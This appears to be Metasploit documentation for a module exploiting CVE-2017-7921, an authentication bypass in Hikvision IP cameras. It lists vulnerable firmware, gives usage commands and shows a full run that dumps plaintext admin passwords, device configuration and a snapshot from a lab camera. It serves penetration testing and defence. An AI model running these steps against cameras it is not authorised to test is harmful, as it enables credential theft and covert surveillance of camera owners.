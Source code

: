 ## Vulnerable Application

Many Hikvision IP cameras have improper authorization logic that allows unauthenticated information disclosure
of camera information, such as detailed hardware and software configuration, user credentials, and camera snapshots.

This module allows the attacker to disclose this information without the need of authenticaton by utilizing the
improper authentication logic to send a request to the server which contains an `auth` parameter in the query string
containing a Base64 encoded version of the authorization in `username:password` format.
Vulnerable cameras will ignore the `password` parameter and will instead use the username part of this string
as the user to log in. Using user `admin` will allow an attacker to retrieve and disclose any information
of the targeted device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

## Verification Steps

This module has been tested against a Hikvision camera with the specifications listed below:

* MANUFACTURER: Hikvision.China
* MODEL: DS-2CD2142FWD-IS
* FIRMWARE VERSION: V5.4.1
* FIRMWARE RELEASE: build 160525
* BOOT VERSION: V1.3.4
* BOOT RELEASE: 100316

1. `use auxiliary/gather/hikvision_info_disclosure_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `check`
1. `set PRINT true`
1. `set ACTION Automatic`
1. `run`
1. You should get a full disclosure of all camera information supported by this module.

## Options
### PRINT
This option allows you print all information collected to the console during execution except for
camera snapshots.

## Actions
### Automatic
Retrieves all information supported by this module
### Configuration
Retrieves the camera hardware and software configuration
### Credentials
Retrieves all configured users including the passwords in plain text format and stores them in the database.
This can be checked by using the command `creds -O <target IP>` at the Metasploit prompt.
### Snapshot
Takes a camera snapshot and stores it as a JPEG file in loot.

All information disclosed is by default stored in loot

## Scenarios

### Hikvision Camera DS-2CD2142FWD-IS -> firmware version V5.4.1, build 160525

```
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set ACTION Automatic
ACTION => Automatic
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set PRINT true
PRINT => true
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > options

Module options (auxiliary/gather/hikvision_info_disclosure_cve_2017_7921):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PRINT    true             no        Print output to console (not applicable for snapshot)
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.100.180  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Auxiliary action:

   Name       Description
   ----       -----------
   Automatic  Dump all information


msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > check
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Running in automatic mode
[*] Getting the user credentials...
[*] Credentials for user:admin are added to the database...
[*] Credentials for user:admln are added to the database...
[*] User Credentials Information:
-----------------------------
Username:admin | ID:1 | Role:Administrator | Password: Pa$$W0rd
Username:admln | ID:2 | Role:Operator | Password: asdf1234

[+] User credentials are successfully saved to /root/.msf4/loot/20221002172346_default_192.168.100.180_hikvision.creden_049224.txt
[*] Getting the camera hardware and software configuration...
[*] Camera Device Information:
--------------------------
Device name: IP CAMERA
Device ID: 88
Device description: IPCamera
Device manufacturer: Hikvision.China
Device model: DS-2CD2142FWD-IS
Device S/N: DS-2CD2142FWD-IS2016HS77777777777
Device MAC: bc:ad:28:ff:ff:ff
Device firmware version: V5.4.1
Device firmware release: build 160525
Device boot version: V1.3.4
Device boot release: 100316
Device hardware version: 0x0

Camera Network Information:
---------------------------
IP interface: 1
IP version: v4
IP assignment: static
IP address: 192.168.100.180
IP subnet mask: 255.255.255.0
Default gateway: 192.168.100.1
Primary DNS: 8.8.8.8

Camera Storage Information:
---------------------------
Storage volume name: HDD1
Storage volume ID: 1
Storage volume description: DAS
Storage device: HDD
Storage type: internal
Storage capacity (MB): 30543
Storage device status: HD_NORMAL

[+] Camera configuration details are successfully saved to /root/.msf4/loot/20221002172347_default_192.168.100.180_hikvision.config_549113.txt
[*] Taking a camera snapshot...
[+] Camera snapshot is successfully saved to /root/.msf4/loot/20221002172348_default_192.168.100.180_hikvision.image_963468.bin
[*] Auxiliary module execution completed

msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admln   asdf1234         Password
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) >
```

## Limitations
No limitations are identified so far using this module.
